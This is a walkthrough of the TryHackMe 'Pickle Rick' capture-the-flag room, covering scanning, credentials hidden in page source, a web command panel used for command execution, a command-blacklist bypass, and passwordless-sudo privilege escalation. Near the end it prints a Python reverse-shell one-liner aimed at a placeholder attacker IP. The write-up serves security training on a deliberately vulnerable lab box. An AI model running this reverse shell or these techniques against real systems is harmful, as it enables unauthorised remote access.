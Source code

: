# [THM-PickleRick](https://tryhackme.com/room/picklerick) - Maxwell Caron

A Rick and Morty CTF. Help turn Rick back into a human!


# External

Initial `nmap` scan:
```
$ nmap -sC -sV -oN inital 10.10.69.168

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d0:e3:a6:9f:40:19:68:a8:db:34:29:e9:45:bd:40:91 (RSA)
|   256 77:25:a2:d4:0b:05:17:05:20:3b:a6:74:ef:cf:1a:9f (ECDSA)
|_  256 5c:2a:7b:9b:0d:b3:73:37:6b:7f:32:dc:be:5a:f8:ea (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`gobuster` scan:
```
$ gobuster dir -u http://10.10.69.168 -w /opt/directory-brute.txt -x php,txt

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.69.168
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/directory-brute.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2021/05/28 13:50:42 Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.69.168/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]                   
/robots.txt           (Status: 200) [Size: 17]
```

From our initial scans the obvious first move is to enumerate the web page running on port `80` since we have nothing to go off of for `ssh` 

# Web App

![mainpage](https://i.imgur.com/Xie6ulW.png)

Looking at the main page, nothing really stands out to us except some room *lore* but, checking out the source of the page by pressing `CTRL + u` we get something interesting.

![1](https://user-images.githubusercontent.com/69171981/120057539-b4243b00-bff8-11eb-84cf-a829d692362d.png)

In a pretty bold comment we see `rick` has taken a note of his username but no password in sight. Now we know we have a username *most likely* for that `/login.php` page...

![loginpage](https://i.imgur.com/3GaYesG.png)

I tried some quick SQLi payloads to see if we have an easy access but came up with nothing. At first I thought of using `hydra` to brute-force his password but than I looked back at the gobuster scan and saw that we found `robots.txt` this file isn't always useful but you should always check it.

![robots](https://i.imgur.com/iZhpgcx.png)

Inside, we see a *phrase* concatenated into a single word since it was in `robots.txt` I thought this might be a hidden directory, trying to access that page we get a `404` meaning it does not exist. 

After a few minutes of thinking, if `rick` hid his password inside of the web page, he might be hiding his password as well, going off of this thought, I tried using the word that we found in `robots.txt` as `rick`'s password...

![loggedin](https://i.imgur.com/oTIpnvz.png)

It worked! we are greeted with a "Command Panel" hovering out mouse over each of the words in the header of the page, they all redirect us to `/denied.php` stating that *"Only the **REAL** rick can view this page.."*

Trying not to get distracted with that *juicy* command panel I decided to look at the source of the page to see if there was anything else hidden.

![fake](https://i.imgur.com/3oFkuHb.png)

Once again the pattern continues and we see what looks like a base64 hash commented out inside of the page source

Buuuuut, after some attempted decoding, this was nothing but a rabbit hole...

Moving on, from experience I've seen a few of these *"Command Panel"*s before so I decided to input a simple linux command into the panel.

![exec](https://i.imgur.com/g5Cnjaf.png)

Upon clicking execute, we see that the command that we inputted in executed and displayed to us.

There is a log that we can do with this including potentially getting a reverse shell but, I decided not to just straight to a reverse shell and rather do most of my enumeration in this command panel.

![ls](https://i.imgur.com/Lg6A9PA.png)

Running `ls -al` gives us the output above. Looking at this output we see some familiar files such as `index.html`, `robots.txt`, `portal.php`, etc. I realized that we are in the `/var/www/html` directory which is the directory that this `apache2` web server runs off of.

There are a few files that catch my eye here, since we can execute commands we can simple just `cat` these files out... right?

![wrong](https://i.imgur.com/FD6xenJ.png)

wrong. It seems that the `cat` command is disabled, that's fine there are plenty of other ways to read the contents of these files. 

Let's see how they are blocking us from using a certain command.

![3](https://user-images.githubusercontent.com/69171981/120057546-bbe3df80-bff8-11eb-8baf-8f862dcad13b.png)

Using the `tac` command we can read the source code of the file and see a `javascript` method with an array inside with the blacklisted commands. 

Starting out with the `Sup3rS3cretPickl3Ingred.txt` file, since we are in the web page's file tree, I simply just attached it to the url in the address bar but, you could use `tac` instead of `cat` to do the same thing

![firstflag](https://i.imgur.com/KgERNPh.png)

Inside of this is our first flag!

Next, let's take a look at the `clue.txt` file.

![clue](https://i.imgur.com/M8OZuyz.png)

Reading this file we see that it is hinting at us to look around the file system for the next flag.

Instead of manually looking around, we can use the `find` command inside of the command panel to speed up the process.

![2](https://user-images.githubusercontent.com/69171981/120057551-c30aed80-bff8-11eb-8bcf-8ba950611d6f.png)

using this command, `find / -name "*second*" 2>>/dev/null` we see a quite promising file by the name `second ingredients` in `rick`'s home directory, let's see if we can `tac` it out.

!(secondflag)[https://i.imgur.com/yqbY0u6.png]

We can! After looking around a bit more to see if we could somehow access the final flag I decided it was time to get a shell.

Heading over to pentestmonkey's [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) Knowing that we cannot use `cat` in our input, we are unable to use the `netcat` reverse shell, so let's see if we can use `python3` in the command panel. 

![python](https://i.imgur.com/VojqzxJ.png)

Using the `which` command we see that `python3` is installed and from the array of blacklisted commands that we found earlier, we know that we are able to use it as well.

![nclistener](https://i.imgur.com/xb2e9GB.png)

After setting up our `netcat` listener, we can paste the reverse shell into the command panel.
*make sure you are using `python3` not `python`*

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![werein](https://i.imgur.com/ih6Abse.png)

# Internal

Now that we have a shell on the box, I will stabilize it by using a few commands..

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

These commands stabilize our shell so we can use our arrow keys, the `clear` command, etc.

We see that we are running as a low-privileged user `www-data`, I will start off with some manual enumeration to see if we can escalate our privileges.

I always start off my manual enumeration with `sudo -l` this command lists commands that we can use as `sudo`, or the `root` user.

![sudol](https://i.imgur.com/gktO0Eu.png)

Looks like we can user any command as any user without supplying a password!

![privesc](https://i.imgur.com/C7Lgj5D.png)

Just like that we are root, all we have to do is find the final flag.

![finalflag](https://i.imgur.com/VtzZbTT.png)

Checking out the `/root` directory we see `3rd.txt` with the third and final flag inside. That is all of the flags, thank you for joining me :)
